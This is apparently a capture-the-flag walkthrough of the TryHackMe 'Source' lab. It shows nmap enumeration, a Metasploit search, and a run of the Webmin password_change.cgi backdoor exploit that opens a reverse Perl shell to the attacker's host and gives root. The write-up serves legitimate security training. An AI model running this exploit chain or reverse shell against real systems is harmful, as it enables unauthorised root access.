



# THM - Source

#### Ip: 10.10.195.75
#### Name: Source
#### Difficulty: Easy

----------------------------------------------------------------------


### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Source]
└─$ sudo nmap -p-  --min-rate 10000 10.10.195.75 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-19 12:29 CDT
Warning: 10.10.195.75 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.195.75
Host is up (0.26s latency).
Not shown: 62627 closed tcp ports (reset), 2906 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b74cd0bde27b1b15722764562915ea23 (RSA)
|   256 b78523114f44fa22008e40775ecf287c (ECDSA)
|_  256 a9fe4b82bf893459365becdac2d395ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.36 seconds
```

Seeing that Webmin is running and is associated with several vulnerabilities I fire up Metasploit to take a look at which modules may be of interest. 

```text
┌──(ryan㉿kali)-[~/THM/Source]
└─$ msfconsole -q                                                                            
msf6 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   3  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
   4  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   5  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
```

The webmin_backdoor seems interesting.

Updating the options to:



We can then launch the exploit using the `run` command:

```text
msf6 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 10.2.6.181:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 2 opened (10.2.6.181:4444 -> 10.10.195.75:49722) at 2023-09-19 12:43:27 -0500

whoami
root
hostname
source
python -c 'import pty;pty.spawn("/bin/bash")'


root@source:/usr/share/webmin/#
```

Nice, we caught a shell as root!

All we need to do now is grab our flags:





Thanks for following along!

-Ryan

----------------------------------------------------
